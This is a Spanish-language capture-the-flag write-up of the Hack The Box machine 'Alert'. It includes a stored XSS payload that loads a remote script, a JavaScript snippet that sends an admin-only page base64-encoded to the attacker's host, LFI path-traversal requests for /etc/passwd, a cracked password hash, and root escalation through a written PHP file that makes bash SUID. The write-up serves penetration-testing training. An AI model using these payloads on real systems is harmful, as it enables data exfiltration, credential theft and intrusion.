# Alert

10.129.231.188



Hay nodos intermedios en la conexión con HTB
```bash
ping -c 2 10.129.231.188 -R
```



Vemos un file uploader pero parece que solo deja subir archivos .md, he realizado un atacker modo sniper desde burp con extensiones de todo tipo php pero no permite a simple vista.

Hay más input text sobre email, message y numero pero parecen no tener sxx o sqli

Gobuster nos reporta algunos directorios pero sin permisos para acceder



Intentaremos subir un archivo *.md*
Si buscamos "Markdown sheet cheat" vemos que es un archivo que interpreta comandos de formato de texto parecido a obsidian por ejemplo



- Interpreta el código



Los archivos .md por definición interpretan código html por lo que podríamos intentar ejecutar código js en él
```javascript
<script>alert("pwned")</script>
```



Efectivamente podemos ejecutar código desde este archivo

Vemos que hay un botón de compartir enlace de archivo abajo a la derecha *Share Markdown*, por lo que esto es un vector muy peligroso de intrusión. Cualquier persona que entre en ese enlace ejecutará el código incrustado en el archivo .md (con sus privilegios de usuario)
El botón Share Markdown nos lleva a un recurso
*http://alert.htb/visualizer.php?link_share=69163ed413ba82.82007473.md*
El cual si conseguimos que pinche alguien , ejecutará el contenido del archivo malicioso que subamos

En el apartado de *Contact Us* vemos que se puede enviar un mensaje al admin. Este admin se nos dice en la pestaña de About Us que estará atento y resolverá el problema rápidamente.
Probemos a enviarle en el mensaje una url hacia un servidor http levantado en nuestra máquina a ver si hace click



Con el servidor http levantado en K en el puerto 80
```bash
python -m http.server 80
```



Efectivamente hace click e intenta recuperar el archivo /pwned, que en este caso no existe

Si ahora subimos un archivo .md en js que haga referencia a un servidor que tengamos levantado en K, al subir el archivo vemos que se realiza la solicitud
```javascript
<script src="http://10.10.16.54/pwned.js"></script>
```




Se comprueba que si le pasamos al admin por el portal de contacto la url que hace referencia al archivo test.md subido, se realizará una solicitud hacia nuestro archivo pwned.js con el que podremos exfiltrar información sobre algún recurso al cual el admin tenga acceso

Por ejemplo el recurso alert.htb/index.php?page=messages



Vemos que el recurso existe pero parece que no tenemos acceso. Sabemos que existe porque si escribiéramos cualquier cosa en el parámetro *page* salta un error



- Este parámetro *page* parece ser que internamente es concatenado a la url o algo parecido para mostrar el recurso ya sea contact - messages - alert - about, etc.

Cambio de IP en Kali -> 10.10.16.54

Código de `pwned.js` para leer el contenido de *messages*:

```javascript
// 1 - Pedir el recurso interno "messages" (existe pero no lo vemos directamente)
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?page=messages', false);
req.send();
// La respuesta queda almacenada en req.responseText

// 2 - Exfiltrar esa respuesta (en base64) hacia nuestro Kali
var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.54/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

En 1 haremos que la persona que pincha en el enlace envíe una petición hacia el recurso *messages* que aparentemente existe pero no muestra contenido.

En 2 haremos que este usuario envíe una petición GET hacia nuestro kali. En esta petición irá el parámetro bs64 con la información de la respuesta de la petición al recurso *messages*  (almacenado en *req.responseText*). Además, el contenido del parámetro, que es el contenido del html de la página *messages*, irá en base64 para no romper la url en la petición.

- Ambas peticiones se harán con el modo asíncrono en false para que las peticiones se tramiten una detrás de la otra y así la información se sincronice bien

Le pasamos el enlace compartido del archivo *test.md* en el apartado de contactos, para que el usuario ejecute el
```javascript
<script src="http://10.10.16.54/pwned.js"></script>
```

Y recupere el archivo *pwned.js* que hará las peticiones GET mencionadas anteriormente, el resultado en nuestro servidor levantado en python en el puerto 80 será



Decodificaremos el el contenido del parámetro
```bash
echo 'contenido' | base64 -d
```

Obtenemos el contenido del html de *messages* que ve el administrador que atiende a las peticiones de Contact Us



Vemos que se hace referencia a un archivo interno del servidor
**2024-03-10_15-48-34.txt**
Podríamos probar un LFI apuntando a un recurso interno del sistema como */etc/passwd*
Cambiamos la dirección a la que se realiza la petición en *pwned.js*
```bash
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../../etc/passwd', false);
```

Conseguimos efectuar el LFI y obtenemos el valor de /etc/passwd, filtramos por todo lo que acabe en *sh* con
```bash
grep 'sh$'
```



Vemos varios usuarios del sistema
**root, albert, david**

Intentaremos acceder a archivos más sensibles como el que muestra posible ruta absoluta y subdominios existentes sobre los que está montado el servidor. Este archivo es:
*/etc/apache2/sites-available/000-default.conf*
Cambiaremos el valor de la ruta del LFI en *pwned.js*
`req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../../etc/apache2/sites-available/000-default.conf', false);`

Obtenemos info sobre el servername **alert.htb**



Y obtenemos también información sobre un subdominio



**statistics.alert.htb**

Este subdominio se podría haber encontrado por fuerza bruta con gubster
```bash
gobuster vhost -u http://alert.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```

vhost: para subdominios
--append-domain: prueba con `'subdominio'.alert.htb` y no `alert.htb.'subdominio'`
-r: al realizar las peticiones, hay muchos nombres de subdominio que devuelven un `301` redirect, con este parámetro lo que hace la petición es seguir hasta el código de estado final para ver si de verdad ese nombre de subdominio con el que está probando va a algún sitio.
encontramos también `statistics.alert.htb`

Meteremos ese subdominio también en */etc/hosts* para que resuelva a la ip
Al escribir ahora en el buscador http:/statistics.alert.htb obtenemos un panel de autenticación



Aparentemente no tenemos credenciales

En la información acerca del subdominio se informa de un */.htpasswd*
Obtenemos resultado



**albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/**

Meteremos la línea con usuario:pswd en un archivo y usaremos hashcat para crackear el hash
```bash
hashcat hash /usr/share/wordlists/rockyou.txt --user
```

--user: para decirle que el hash contempla dentro un usuario
**albert:manchesterunited**

Conseguimos autenticarnos en el panel con las credenciales y vemos una página con datos, dashboards y emails



Intenamos conectarnos por ssh a ver si se reutilizan credenciales
```bash
ssh albert@10.129.231.188
```

**albert**

## Escalada

Vemos que el usuario albert está en un grupo llamado *management*



Vamos a buscar que archivos a nivel de grupo tienen asignado *management*
```bash
find / -group management 2>/dev/null
```

Encontramos un */opt/website-monitor* con un archivo config, que no contiene nada. Vamos a investigar que es eso de website-monitor con el *index.php*
- Parece no haber nada

Miramos puertos internos abiertos con
```bash
ss -nltp
```

--> comando -->





Vemos en local el puerto 8080 abierto

Vamos a traer el contenido de ese puerto con curl
```bash
curl localhost:8080
```

Vemos el contenido de un serivicio que parece que tiene partes de código compartidas con el recurso /website-monitor visto anteriormente. Estas partes de código son **Website Monitor is an open source project inspired by...**

Aplicamos Local Port Forwarding hacia el puerto 8080 de nuestra máquina con -L
Desde nuestro kali:
```bash
ssh albert@10.129.231.188 -L 8080:localhost:8080
```

- -L [puerto_local]:[host_remoto_ssh]:[puerto_remoto]

Si hacemos en nuestro buscador ahora `localhost:8080`
Vemos un sistema de monitoreo de los subdominios



Buscamos procesos levantados en la máquina víctima relacionados con este servicio para obtener potenciales vías de escalada
```bash
ps -faux | grep monitor
```

Vemos que root está ejecutando un servicio en `127.0.0.1:8080` precisamente de */opt/website-monitor* en con *usr/bin/php*



Volviendo a la ruta donde reside este servicio en /opt/website-monitor, vemos que tenemos permisos de escritura sobre el directorio **monitors**, es decir podemos crear archivos.



Teniendo en cuenta que el servicio interpreta php (está lanzado con /usr/bin/php) podríamos crear un archivo php que ejecutara comandos
```bash
nano test.php
```

```php
<?php system('whoami && id'); ?>
```

Cuando indexamos ese recurso en el buscador de nuestro kali



Vemos que ejecuta comandos

Lo que haremos ahora será asignarle permiso a la bash para que sea SUID
```php
<?php system('chmod u+s /bin/bash'); ?>
```



Ahora la bash podrá ser ejecutada con privilegios por cualquier usuario
```bash
bash -p
```



**root**
